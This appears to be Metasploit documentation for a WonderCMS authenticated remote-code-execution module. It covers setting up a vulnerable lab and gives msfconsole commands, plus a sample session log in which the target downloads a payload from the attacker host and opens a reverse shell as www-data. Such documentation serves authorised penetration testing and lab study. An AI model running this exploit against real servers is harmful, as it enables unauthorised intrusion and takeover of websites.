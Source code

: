## Vulnerable Application

[WonderCMS](https://www.wondercms.com/) is a free and open-source Content Management System (CMS). The main advantage is that only one PHP file controls the whole management. Follow next steps to install application:

### Source Installation
1. Install Apache2 and PHP on server
2. Download WonderCMS from [here](https://github.com/WonderCMS/wondercms/releases/download/3.4.2/wondercms-342.zip)
3. Enable Apache2 Rewrite Engine: `sudo a2enmod rewrite`
### Docker Installation
1. Clone the following repo: `git clone https://github.com/mablanco/docker-wondercms.git`
2. Inside the `Dockerfile` set the version to a vulnerable version: `ARG WONDERCMS_VERSION=3.4.0`
3. Build the image: ` docker build -t 3.4.0 .`
4. Run the container: `docker run -d -p 8980:80 --name wondercms 3.4.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use multi/http/wondercms_rce`
4. Do: `set PASSWORD [password]`
5. Do: `set RHOST [WonderCMS IP]
6. Do: `set SRVHOST [attacker IP to host payload]`
7. Do: `set LHOST [attacker IP]`
8. Do: `set LPORT [attacker PORT]`
9. Do: `run`
10. You should get a shell.

## Options

### PASSWORD

WonderCMS uses a global password that generated at the application's first run. This is global admin password that controls the whole CMS. This password has to be used in the exploit to get authenticated access.

## Scenarios

```
msf exploit(multi/http/wondercms_rce) > set LHOST 192.168.168.152
LHOST => 192.168.168.152
msf exploit(multi/http/wondercms_rce) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/wondercms_rce) > exploit
[*] Exploit running as background job 28.
[*] Exploit completed, but no session was created.
msf exploit(multi/http/wondercms_rce) > 
[*] Started reverse TCP handler on 192.168.168.152:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is probably WonderCMS..
[+] The target is vulnerable. Version 3.4.2 is affected
[*] Using URL: http://192.168.168.152:8082/81k4.zip
[*] Received request, sending payload..
[*] Server stopped.
[*] Command shell session 5 opened (192.168.168.152:4444 -> 192.168.168.146:37068) at 2025-04-25 14:46:20 +0200

msf exploit(multi/http/wondercms_rce) > sessions 5
[*] Starting interaction with 5...

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

